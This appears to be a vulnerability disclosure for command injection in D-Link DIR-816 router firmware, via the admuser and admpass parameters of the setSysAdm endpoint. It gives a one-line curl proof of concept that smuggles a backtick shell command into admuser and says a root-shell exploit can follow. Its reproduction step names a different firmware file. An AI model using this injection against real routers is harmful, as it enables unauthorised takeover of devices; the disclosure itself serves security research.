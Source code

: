 # D-link DIR-816 A2_v1.10CNB04.img Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ： [http://tsd.dlink.com.tw/GPL.asp](http://tsd.dlink.com.tw/GPL.asp)

## 1. Affected version

![image-20220409142816775](img/image-20220409142816775.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![image-20220409142859388](img/image-20220409142859388.png)

The content obtained by the program through admuser and admpass parameters is passed to V3 and V4, and then V3 and V4 are brought into the dosystem function. There is a command injection vulnerability

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware DIR882A1_FW130B06.bin
2. Attack with the following POC attacks

```
curl -i -X POST http://192.168.0.1/goform/setSysAdm -d tokenid=xxxx -d 'admuser=`ls > /tmp/456`'
```

![image-20220405112133823](img/image-20220405112133823.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell